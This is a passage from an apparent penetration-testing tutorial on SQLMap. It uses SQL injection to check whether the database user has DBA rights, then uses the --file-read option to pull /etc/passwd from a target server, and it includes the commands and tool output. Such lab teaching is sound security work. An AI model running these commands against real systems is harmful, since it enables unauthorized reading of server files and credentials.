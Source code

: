As we can see, if we test that on one of the previous exercises, we get `current user is DBA: False`, meaning that we do not have DBA access. If we tried to read a file using SQLMap, we would get something like:

```shell
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved

```

To test OS exploitation, let's try an exercise in which we do have DBA privileges, as seen in the questions at the end of this section:

```shell
sqlmap -u "http://www.example.com/?id=1" --is-dba

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/

```

We see that this time we get `current user is DBA: True`, meaning that we may have the privilege to read local files.

* * *

## Reading Local Files

Instead of manually injecting the above line through SQLi, SQLMap makes it relatively easy to read local files with the `--file-read` option:

```shell
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
```